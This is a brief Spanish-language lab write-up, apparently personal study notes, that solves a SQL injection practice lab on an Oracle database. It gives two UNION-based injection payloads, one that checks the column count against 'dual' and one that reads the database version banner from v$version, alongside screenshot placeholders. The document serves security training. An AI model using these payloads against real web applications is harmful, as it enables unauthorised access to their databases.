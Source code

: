 Tenemos el siguiente laboratorio:
![[Pasted image 20240511230435.png]]
Vamos a determinar el número columnas de la tabla y las columnas que tienen información:
```bash
'+UNION+SELECT+'abc','def'+FROM+dual--
```
![[Pasted image 20240511230545.png]]
Y vemos lo siguiente:
![[Pasted image 20240511230602.png]]
Y ahora usamos el siguiente payload:
```bash
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
![[Pasted image 20240511230632.png]]
Lo ejecutamos y ya tenemos el laboratorio resuelto:
![[Pasted image 20240511230654.png]]
